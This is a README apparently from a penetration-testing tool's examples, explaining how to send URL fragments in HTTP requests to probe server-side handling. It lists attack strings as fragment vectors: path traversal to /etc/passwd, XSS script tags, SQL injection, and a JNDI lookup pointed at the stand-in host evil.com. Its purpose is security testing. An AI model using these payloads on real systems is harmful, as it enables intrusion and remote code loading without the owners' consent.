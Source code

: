 # Fragment Penetration Testing Examples

This directory contains examples demonstrating how to use fragments (#) in HTTP requests for penetration testing purposes.

## Fragment Test Files

### 1. fragment_test.json
Basic fragment testing example with simple GET request containing a fragment.
```bash
s2req -f examples/fragment_test.json -h http://target.com
```

### 2. fragment_injection_test.json
Advanced fragment injection testing with POST request, demonstrating:
- Fragment in URL path
- XSS payloads in query parameters
- SQL injection attempts in body
- Fragment references in form data

```bash
s2req -f examples/fragment_injection_test.json -h http://vulnerable-app.com
```

### 3. fragment_multi_test.yaml
Multiple request scenarios in YAML format:
- GET request with fragment in search endpoint
- POST request with fragment in form submission
- PUT request with fragment in API endpoint

```bash
s2req -f examples/fragment_multi_test.yaml -h http://api.target.com
```

### 4. fragment_fuzzing_test.json
Comprehensive fragment fuzzing test with dictionary-based payload injection:
- Path traversal attempts
- XSS payloads
- SQL injection
- JNDI injection
- URL encoded payloads

```bash
s2req -f examples/fragment_fuzzing_test.json -h http://test-app.com
```

## Fragment Testing Scenarios

### Common Fragment Attack Vectors

1. **Path Traversal**: `#../../etc/passwd`
2. **XSS Injection**: `#<script>alert('xss')</script>`
3. **SQL Injection**: `#' OR 1=1--`
4. **JNDI Injection**: `#${jndi:ldap://evil.com/a}`
5. **JavaScript Execution**: `#javascript:alert('fragment_xss')`
6. **Admin Access**: `#admin`, `#debug`, `#config`

### Usage Notes

- Fragments are normally not sent to servers in standard HTTP requests
- This tool specifically sends fragments to test server-side fragment handling
- Useful for testing applications that might process fragments server-side
- Can reveal hidden functionality or debug endpoints
- May expose sensitive information through fragment-based routing

### Security Testing Considerations

When using these examples:
1. Only test on systems you own or have explicit permission to test
2. Monitor server responses for error messages or unexpected behavior
3. Check for information disclosure in responses
4. Test different HTTP methods (GET, POST, PUT, DELETE)
5. Combine with other penetration testing techniques

### Example Output

When fragments are successfully sent to the server, you might see:
- Server processing fragment as part of the request path
- Different responses based on fragment content
- Error messages revealing server-side fragment handling
- Access to hidden or debug endpoints